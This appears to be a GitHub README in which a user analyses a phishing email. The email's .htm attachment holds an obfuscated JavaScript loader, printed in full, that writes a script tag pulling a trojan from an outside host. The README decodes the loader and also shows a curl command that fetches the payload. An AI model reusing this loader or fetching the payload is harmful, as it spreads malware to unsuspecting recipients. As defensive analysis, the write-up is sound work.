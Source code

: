 # virus

On 14 Jan 2025 I received the following mail (Thunderbird as a mail program):

![grafik](https://github.com/user-attachments/assets/7bf2c6f3-4468-41a5-b0a2-40a812461fb1)

There are two attachments, a html file and a pdf. The pdf is suspiciously short and actually not a pdf at all.
The html file contains a javascript that downloads the trojan Wacatac.B!ml.
I did a "curl -v https://fictional-dmk.vercel.app > virus.out", and seconds later MS Defender popped up
and told me about a severe security issue, and quarantined the file.

I could restore it and save it here in the repository but I will not - it might make it too easy to set up the
same trap and I want to stay on the bright side.

## Analysis

### pdf
Here is the content of the .pdf attachment:

7847834783478347834783478GHSD347R8YUFDJHKFDFGKSJDGFSK786YDFUSGKFSDFSD

I cannot make sense out of it... maybe it is meant to lure people to click the html after they tried the pdf in vain?

### htm
Here is the content of the .htm attachment to the mail:

<script>var _fs=['PHNjcmlwdCBzcmM9Imh0dHBzOi8vZmljdGlvbmFsLWRtay52ZXJjZWwuYXBwLyI+PC9zY3JpcHQ+Cg==',"\x77\x72\x69\x74\x65"]; var h = "bXltYWlsQGhvdG1haWwuY29t"; document[_fs[1]](unescape(atob(_fs[0])))</script>


### Meaning

The obfuscation is simple and if decoded it reads as follows:

0th param: <script src="https://fictional-dmk.vercel.app/"></script>

1st param: write

Variable h=(my email address in plain text)

The link to vercel.app loads a script which - according to MS Defender - contains the following trojan: Trojan:Script/Wacatac.B!ml

The entire htm attachment boils down to:

document[write](<script>"https://fictional-dmk.vercel.app/"></script>)

Since 'document[write](xyz)' is the same as 'document.write(xyz)', this will cause the browser to insert the script tag in parentheses into
the current HTML document, fetch the javascript from fictional-dmk.vercel.app, and execute it. No doubt said javascript code would then
contain a part that evaluates my email adress by reading the variable 'h' and likely report back to the owner of this thing that I am infected
and ready to receive a 'pay ransom or your files stay encrypted' mail or similar.


